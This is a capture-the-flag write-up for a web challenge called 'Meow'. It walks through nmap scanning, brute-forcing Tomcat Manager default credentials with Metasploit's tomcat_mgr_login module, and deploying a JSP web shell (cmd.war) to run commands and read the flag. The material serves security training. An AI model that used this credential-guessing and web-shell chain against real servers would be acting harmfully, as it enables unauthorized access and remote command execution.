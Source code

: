 # Meow

## Web: 90 Points

## Challenge
We're using Tomcat to manage our [challenges.laptophackingcoffee.org](challenges.laptophackingcoffee.org) server. Is that bad?

Note: The server resets to default every 30 minutes. All progress will be lost.

## Solution

Scan the given URL with Nmap:
```
$ nmap -sC -sV challenges.laptophackingcoffee.org -Pn
...
PORT     STATE  SERVICE       VERSION
22/tcp   open   ssh           OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d4:ce:7d:2e:95:fd:ee:35:8e:18:1e:0b:05:b4:57:ff (RSA)
|   256 e8:90:b0:4c:70:3a:42:18:dd:46:f7:a4:f5:8d:60:31 (ECDSA)
|_  256 18:a4:49:d9:29:26:25:7d:aa:93:e1:af:17:0f:d3:66 (ED25519)
3389/tcp closed ms-wbt-server
4242/tcp open   http          Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Coding A CSS3 &amp; HTML5 One Page Template | Tutorialzine demo
8080/tcp open   http          Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.55
8086/tcp closed d-s-n
8090/tcp closed opsmessaging
8888/tcp open   http          nginx 1.17.0
|_http-server-header: nginx/1.17.0
|_http-title: Steve's Super Secure Storage Page
9999/tcp closed abyss                                
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Note that port 8080 is hosting the Tomcat server mentioned in the challenge:
```
8080/tcp open   http          Apache Tomcat/Coyote JSP engine 1.1
```

Scan just port 8080:
```
$ nmap -sC -sV challenges.laptophackingcoffee.org -p 8080 -Pn                              
...
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.55
...
```

Open the URL with port 8080 in the browser:

http://challenges.laptophackingcoffee.org:8080/

This page is the default Apache Tomcat homepage: 

![screenshot1.png](screenshot1.png)

Browse around. Click the **Manager App** button. Notice that the Manager App requires a username and password. Could this be a potential entry point?

![screenshot2.png](screenshot2.png)

Start up metasploit and search for *Tomcat*:
```
$ msfconsole
...
msf5 > search tomcat

Matching Modules
================

   #   Name                                                         Disclosure Date  Rank       Check  Description
   -   ----                                                         ---------------  ----       -----  -----------
   1   auxiliary/admin/http/tomcat_administration                                    normal     No     Tomcat Administration Tool Default Access
   2   auxiliary/admin/http/tomcat_utf8_traversal                   2009-01-09       normal     No     Tomcat UTF-8 Directory Traversal Vulnerability
   3   auxiliary/admin/http/trendmicro_dlp_traversal                2009-01-09       normal     No     TrendMicro Data Loss Prevention 5.5 Directory Traversal
   4   auxiliary/dos/http/apache_commons_fileupload_dos             2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   5   auxiliary/dos/http/apache_tomcat_transfer_encoding           2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   6   auxiliary/dos/http/hashcollision_dos                         2011-12-28       normal     No     Hashtable Collisions
   7   auxiliary/scanner/http/tomcat_enum                                            normal     No     Apache Tomcat User Enumeration
   8   auxiliary/scanner/http/tomcat_mgr_login                                       normal     No     Tomcat Application Manager Login Utility
...
```

Out of the search results, the `auxiliary/scanner/http/tomcat_mgr_login` (#8) looks like the most relevant exploit. Select the exploit by entering the command `use 8`. Use the `info` and `show options` commands to view more details about the exploit. 

```
msf5 > use 8
msf5 auxiliary(scanner/http/tomcat_mgr_login) > show options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            challenges.laptophackingcoffee.org                                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             8080                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host
```

Note that the `RPORT` is already set to port 8080. Set the `RHOSTS` option to the LHC website and run the exploit:
```
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS challenges.laptophackingcoffee.org
RHOSTS => challenges.laptophackingcoffee.org
msf5 auxiliary(scanner/http/tomcat_mgr_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 35.237.149.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 35.237.149.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
...
[+] 35.237.149.50:8080 - Login Successful: tomcat:tomcat
...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The exploit succeeded! Login successful:
```
[+] 35.237.149.50:8080 - Login Successful: tomcat:tomcat
```

Visit the Tomcat Manager App page and login with these credentials:
```
user:     tomcat
password: tomcat
```

Access granted: 
![screenshot3.png](screenshot3.png)

The page has a very alluring **Deploy** section. It allows users to **Select WAR file to upload** and then click the **Deploy** button. Further [research][1] confirms that this capability is dangerous. One of the [ways][3] to exploit this is through a web shell. 

Download the [cmd.war](cmd.war) file from this [github repo][4]. Upload and deploy it to the manager page. There will be a link named [/cmd](http://challenges.laptophackingcoffee.org:8080/cmd/). However, this link returns a **404 Not Found** status. To access the shell, visit the `/cmd/cmd.jsp` path:

http://challenges.laptophackingcoffee.org:8080/cmd/cmd.jsp

The **Commands with JSP** page will appear. Type any command in the text field and click **Send** to execute it. The `ls` command gives these results. One of the files is **flag.txt**:

![screenshot4.png](screenshot4.png)

Cat the **flag.txt** file: 

![screenshot5.png](screenshot5.png)

Grab the flag:
```
LHC{T0Mc@t_D3F@ult}
```

## Resources
* [HackTheBox Writeup - Jerry][1]
* [GitHub: Apache Tomcat Default Credentials][2]
* [Multiple Ways to Exploit Tomcat Manager][3]
* [GitHub: Web Shells][4]
* [YouTube: Tomcat Server Shells][5]
* [PentesterLab: CVE-2007-1860 Exercise][6]

[1]:https://medium.com/@hussaini.faisal/hackthebox-writeup-jerry-aa2b992917a7
[2]:https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
[3]:https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
[4]:https://github.com/jbarcia/Web-Shells/blob/master/laudanum/jsp/cmd.war
[5]:https://youtu.be/825BP_gq6xo
[6]:https://pentesterlab.com/exercises/cve-2007-1860/course